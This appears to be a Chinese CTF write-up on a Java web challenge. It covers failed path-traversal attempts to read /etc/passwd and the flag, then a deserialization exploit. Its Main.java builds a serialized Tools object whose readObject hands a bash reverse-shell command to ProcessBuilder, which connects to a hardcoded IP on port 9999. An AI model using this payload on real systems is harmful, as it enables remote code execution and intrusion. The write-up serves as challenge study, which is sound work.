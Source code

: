 ```java
```

伪造admin登录后尝试读文件, 这里有个疑惑的地方, 看源码文件读取的路径是直接和``/WEB-INF/resource/``拼接在一起的, 看赵师傅的wp中是靠``/../../etc/passwd``和它拼接之后可以读到文件, 这样的话路径就是``/WEB-INF/resource//../../etc/passwd``了, 然后我尝试不用/开头去拼接成``/WEB-INF/resource/../../../../../../etc/passwd``不管加多少个../都读不到对应的文件, 很是困惑. 然后读/../../flag显示没有权限.

写文件的功能114告诉我可以往../../../../../../../../tmp下面写, 具体多少个../我忘了....但是没有文件包含的地方.

至此文件读取部分走不通了.

反序列化部分.

Tools.java中这段代码

```java
    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        Object obj = in.readObject();
        (new ProcessBuilder((String[])obj)).start();
    }
```

其中的ProcessBuilder是可以执行系统命令的.

https://blog.csdn.net/wangmx1993328/article/details/80838768

那可以考虑让反序列化的cinfo内容不是Clientinfo的序列化内容而是Tools的序列化内容.

将Tools.java中添加

```java
    private String testCall[];
    public String[] getTestCall() {
        return testCall;
    }
    public void setTestCall(String[] testCall) {
        this.testCall = testCall;
    }
```



Main.java

```java
import java.util.Base64;

import com.tools.Tools;
import com.tools.ClientInfo;

public class Main {
    public static void main(String[] args) {
        try {
            String[] cmd = {"bash", "-c", "bash -i>& /dev/tcp/174.0.220.248/9999 0>&1"};
            Tools tools = new Tools();
            tools.setTestCall(cmd);
            byte[] bytes = Tools.create(tools);
            Base64.Encoder encoder = Base64.getEncoder();
            System.out.println(encoder.encodeToString(bytes));
        }
        catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
